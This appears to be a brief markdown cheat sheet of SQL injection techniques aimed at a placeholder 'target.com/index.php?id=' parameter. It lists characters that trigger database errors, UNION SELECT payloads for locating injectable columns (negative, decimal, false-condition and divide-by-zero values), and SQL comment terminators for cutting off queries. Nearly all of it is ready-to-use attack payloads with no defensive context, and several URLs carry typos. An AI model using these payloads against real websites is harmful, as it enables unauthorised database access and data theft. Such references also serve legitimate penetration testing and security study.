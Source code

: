 # Problem Solving Help

- [~]🥴Error-causing characters🥴[~]
    - Using **Closed Bracket** )<br/>
 ex) https://www.target.com/index.php?id=1)

   - Using **Single Quote** '<br/>
 ex) https://www.target.com/index.php?id=1'

   - Using **Double Quote** "<br/>
 ex) https://www.target.com/index.php?id=1"
 - [~]🤕Find weak column🤕[~]
   - Using **Ridiculous Value**<br/>
 ex) https://www.target.com/index.php?id=[ 2134, null, bybysql ] union select 1,2,3--
   - Using **Negative Quantity**<br/>
 ex) https://www.target.com/index/php?id=-1 union select 1,2,3--
   - Using **Decimal**<br/>
 ex) https://www.target.com/index/php?id=[ 1.1, .1 ] union select 1,2,3--
   - Using **Defualt Value**<br/>
 ex) https://www.target.com/index/php?id= union select 1,2,3--
   - Using **False Parameter**<br/>
 ex) https://www.target.com/index/php?id=1 or 1=2 union select 1,2,3--
   - Using **Divide by 0 means**<br/>
 ex) https://www.target.com/index/php?id=[ 1/0, 1+div+0 ]union select 1,2,3--
 - [~]📃Types of annotations📃[~]<br/>
 [ **--**, **#(%23)**, __/* */__, **--+**, **---**, **--+-**, **;** ]